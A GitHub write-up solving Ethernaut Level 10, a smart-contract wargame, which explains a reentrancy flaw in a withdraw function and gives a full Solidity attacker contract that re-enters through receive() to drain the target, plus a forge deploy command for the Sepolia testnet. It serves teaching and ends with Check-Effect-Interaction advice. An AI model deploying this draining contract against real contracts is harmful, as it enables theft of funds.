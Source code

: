<div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/10-reentrancy.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 10 - Reentrancy</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Objectif

<img src="../assets/requirements/10-reentrancy-requirements.webp" width="800px"/>

## The hack

In this level, we have to drain all the funds from the contract. We have to be familiar with reentrancy attacks, and that is what this very simple example is for.

A reentrancy attack can happen after an external call to another contract. For instance, upon receiving ether, the contract can respond to the transfer. That is when we can "reenter" the contract. And that is why the "Check-Effect-Interaction" pattern or CEI matters.

In this case, the `msg.sender`'s balance is updated AFTER the external call, which leaves the door open for a reentrancy attack.

```javascript
function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```

How does the attack work?

Since the balance is updated after the external call, we can call the `withdraw` function, and reenter the contract via a `fallback()` function upon receiving ether. At this point, despite having already withdrawn our balance, we can withdraw again since the state hasn't been updated yet!

```javascript
// This will always be true
balances[msg.sender] >= _amount;
```

We can repeat this process until the contract is drained. The withdraw function will finally finish its execution and update our balance... a little too late.

Hence the CEI:

- <b>Check: Make sure all your inputs and conditions are correct.
- Effect: Update all states.
- Interaction: Interact with other contracts.</b>

## Solution

Let's take advantage of the `withdraw` function to reenter the contract and drain it since it lacks a proper CEI pattern.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint256 _amount) external;
}

contract Reentered {
    address private immutable target;
    uint256 donation = 0.001 ether;

    constructor(address _target) public {
        target = _target;
    }

    receive() external payable {
        if (target.balance >= donation) {
            IReentrance(target).withdraw(donation);
        }
    }

    function attack() public payable {
        // 1. Donate so you have some funds to withdraw
        IReentrance(target).donate{value: donation}(address(this));
        // 2. Call the withdraw function to start the reentrancy
        IReentrance(target).withdraw(donation);
        // 3. The contract has been drained successfully
        require(address(target).balance == 0, "Reentrancy failed!");
        // 4. Withdraw the funds from the attacker contract
        withdraw();
    }

    function withdraw() public {
        uint256 bal = address(this).balance;
        (bool success, ) = msg.sender.call{value: bal}("");
        require(success, "Transfer Failed");
    }
}
```

Then, you can use forge scripts to deploy this contract and call the `attack` function:

```bash
forge script script/10_Reentrancy.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

> Note: Since the contract starts with `0.001 ether`, leaving its balance at 0 is fairly simple. For a more "realistic" approach, you would have to improve the calculation's method to drain the contract's balance entirely.

## Takeaway

- <b>CHECK-EFFECT-INTERACTION pattern</b> must be systematically followed.
- Use a reentrancy guard if in doubt. Better safe than sorry.

## Reference

- The DAO hack: https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942
- Advanced reentrancy on Curve pools: https://hackmd.io/@vyperlang/HJUgNMhs2

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
